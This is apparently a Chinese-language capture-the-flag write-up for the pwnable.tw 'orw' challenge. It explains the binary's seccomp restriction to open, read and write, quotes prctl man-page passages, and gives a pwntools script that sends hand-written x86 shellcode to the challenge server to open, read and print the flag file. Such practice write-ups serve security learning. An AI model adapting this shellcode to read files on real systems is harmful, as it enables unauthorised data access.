

# ReadMe
#0blog

主要考察shellcode的编写么。
程序写了自己的seccomp函数，通过`prctl`限制了可以使用的系统调用，只能使用`open` 、`read`、 `write`函数，于是流程就很清晰了，使用open打开flag文件，read数据，write出来。

> PR_MCE_KILL (since Linux 2.6.32)  
> 		Set the machine check memory corruption kill policy for the calling thread.    
> 		If arg2 is PR_MCE_KILL_CLEAR, clear the thread memory corruption kill policy and use the 				system-wide default.  (The system-wide default is defined by _proc_sys_vm_							memory_failure_early_kill; see proc(5).)    
> 		If arg2 is PR_MCE_KILL_SET, use a thread-specific memory corruption kill policy.  In this case, 				arg3 defines whether the policy is early kill (PR_MCE_KILL_EARLY), late kill 							(PR_MCE_KILL_LATE),or the system-wide default (PR_MCE_KILL_DEFAULT).  Early kill 					means that the thread receives a SIGBUS signal as soon as hardware memory corruption is 			detected inside its address space.  In late kill mode, the process is killed only when it 					accesses a corrupted page.  See sigaction(2) for more information on the SIGBUS signal.  				The policy is inherited by children.  The remaining unused prctl() arguments must be zero 				for future compatibility.  

> PR_GET_SECCOMP (since Linux 2.6.23)  
> 		Return (as the function result) the secure computing mode of the calling thread.    
> 		If the caller is not in secure computing mode, this operation returns 0;   
> 		if the caller is in strict secure computing mode, then the prctl() call will cause a SIGKILL signal   
> 			to be sent to the process.    
> 		If the caller is in filter mode, and this system call is allowed by the seccomp filters, it returns   
> 			2; otherwise, the process is killed with a SIGKILL signal.  This operation is available only if  
> 			the kernel is configured with CONFIG_SECCOMP enabled.  
> 		Since Linux 3.8, the Seccomp field of the _proc_[pid]/status file provides a method of obtaining 		the same information,without the risk that the process is killed; see proc(5).  


```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
debug = 0

if debug:
    p = process("./orw") 
    gdb.attach(proc.pidof(p)[0]) 
else:
    p = remote("chall.pwnable.tw", 10001)

p.recvuntil("Give my your shellcode:")
asm_init = "xor eax, eax;xor ebx, ebx;xor ecx, ecx;xor edx,edx"
asm_write = "mov edx, 50;mov ebx, 1; mov ecx, {}; mov eax, 4; int 0x80;"
asm_read = "mov ecx, {};mov ebx, {}; mov edx, 50;mov eax, 3;int 0x80;"
asm_open = "mov ebx, {};mov ecx, 0; xor edx,edx;mov eax, 5;int 0x80;"

payload = asm(asm_init) + asm(asm_write.format("0x80486a0")) + asm(asm_read.format("esp", "0")) + asm(asm_open.format("esp")) + asm(asm_read.format("esp", "eax")) + asm(asm_write.format("esp"))
p.send(payload)

p.recvuntil("Give")
p.send("/home/orw/flag" + p32(0x00) + "Lambdax")
p.interactive()
```

